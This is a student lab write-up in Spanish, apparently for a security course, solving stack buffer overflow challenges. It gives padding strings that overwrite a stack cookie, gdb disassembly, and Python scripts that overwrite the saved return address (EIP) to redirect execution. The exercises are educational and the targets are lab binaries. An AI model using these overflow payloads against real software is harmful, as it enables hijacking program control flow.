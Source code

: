 # Escalera Pedro, Iman Federico

### Ej 3

#### Challenge 01:
resuelto en clase

#### Challenge 02: 
La unica diferencia es que ahora debemos ingresar el valor que le queremos ingrsar a la cookie directamente en hexa de esta forma: 

    f.write('A'*70 + '\x04' + '\x03' + '\x02' + '\x01')

ya que en ASCII estos valores representan caracteres de control SOH, STX, ETX  y EOT.

Por lo que se hace imposible llegar desde texto a los valores requeridos.

#### Challenge 01 y 02:

La combinacion de los challenges 1 y 2 es facil:

ej1 : 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA

ej2:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

ej 1 y 2:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA

#### Challenge 03: 
Este challenge no lo solucionamos de la misma forma que los anteriores. 

Lo que hicimos este caso es pisar el registro eip el cual contiene el Program counter, con la direccion del print dentro del if. para hacer esto solo debemos llenar el buf con 60 A lugo la cookie con 4 A, luego el registro ebp con 4 A mas obteniendo asi 68 A y luego ingresamos la direccion de memoria deseada para asi poder modificar el registro eip.
La direccion de memoria deseada se puede obtener dentro de gdb con el comando: 

    disas main
obteniendo: 

    0x08048438 <+0>:     push   %ebp

    0x08048439 <+1>:     mov    %esp,%ebp

    0x0804843b <+3>:     sub    $0x40,%esp

    0x0804843e <+6>:     movl   $0x0,-0x4(%ebp)

    0x08048445 <+13>:    lea    -0x40(%ebp),%eax

    0x08048448 <+16>:    push   %eax

    0x08048449 <+17>:    call   0x8048320 
    <gets@plt>
   
    0x0804844e <+22>:    add    $0x4,%esp
   
    0x08048451 <+25>:    cmpl   $0xd0a00,-0x4
    (%ebp)
   
    0x08048458 <+32>:    jne    0x8048467 <main+47>
   
    0x0804845a <+34>:    push   $0x8048544
   
    0x0804845f <+39>:    call   0x8048330 <puts@plt>
   
    0x08048464 <+44>:    add    $0x4,%esp
   
    0x08048467 <+47>:    mov    $0x0,%eax
   
    0x0804846c <+52>:    leave  
   
    0x0804846d <+53>:    ret   

Obteniendo en esta linea la direccion deseada:

    0x0804845a <+34>:    push   $0x8048544

Finalmente pasamos usamos la libreria struct con el metodo pack y la flag "<i" para pasar al 
la direccion de memoria en formato 	
little-endian(<) y como un int (i)

#### Challenge 01 y 03:

Aplicando la misma logica anterior podemos formar la solucion o con el sigueinte script:

    from struct import pack
    f = open('ej3', 'wb')
    f.write('A'*68+pack('<i', 0x0804845a)+'A'*8+'DCBA')
    f.close()

#### Challenge 02 y 03:

Para resolver estos challenge, cambiamos la solucion del 2 y lo solucionamos igual que el 3
es decir, pisamos el eip del challenge 2 para obtener un payload mas grande y asi poder meter la solucion del 3 en el mismo payload sin superposiciones. 


    f = open('ej2y3', 'wb')
    f.write('A'*68+pack('<i', 0x0804845a)+'A'*6+pack('<i', 0x0804845a))
